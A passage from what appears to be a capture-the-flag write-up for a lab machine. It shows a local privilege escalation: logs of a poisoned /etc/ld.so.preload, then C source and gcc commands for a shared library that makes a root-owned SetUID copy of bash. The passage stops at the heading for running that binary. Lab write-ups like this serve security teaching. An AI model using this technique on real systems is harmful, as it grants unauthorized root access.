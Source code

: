     ERROR: ld.so: object 'host' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '"localhost' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    ERROR: ld.so: object '1339"' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    
    2023/11/08 21:13:40 [error] 2426#2426: *1 open() "/tmp/pwn.so" failed (2: No such file or directory), client: 127.0.0.1, server: , request: "GET /tmp/pwn.so HTTP/1.1", host: "localhost:1339"
    2023/11/08 21:13:42 [error] 2426#2426: *2 open() "/tmp/pwn.so" failed (2: No such file or directory), client: 127.0.0.1, server: , request: "GET /tmp/pwn.so HTTP/1.1", host: "localhost:1339"
    

Now any command will try to load a bunch of junk, but also `/tmp/pwn.so`.

#### Create SO

I’ll make a copy of `bash` to mess with:

    
    
    activemq@broker:/tmp$ cp /bin/bash /tmp/rootshell
    ...[snip errors]...
    

I’ll write the following to `/tmp/pwn.c`:

    
    
    #include <stdio.h>
    #include <sys/types.h>
    #include <unistd.h>
    __attribute__ ((__constructor__))
    void dropshell(void){
       chown("/tmp/rootshell", 0, 0);
       chmod("/tmp/rootshell", 04755); 
       unlink("/etc/ld.so.preload");
       printf("[+] done!\n");
    }
    

This will be the shared library, and on being loaded, it will change the
`bash` executable I just copied to be owned by root and have the SetUID bit
on. Compiling this throws a warning, but it makes the file:

    
    
    activemq@broker:/tmp$ gcc -fPIC -shared -ldl -o /tmp/pwn.so pwn.c 
    ...[snip errors]...
    pwn.c: In function ‘dropshell’:
    pwn.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
       7 |     chmod("/tmp/rootshell", 04755);
         |     ^~~~~
    activemq@broker:/tmp$ ls
    ...[snip errors]...
    pwn.c  pwn.so  rootshell
    

#### Run SetUID Binary
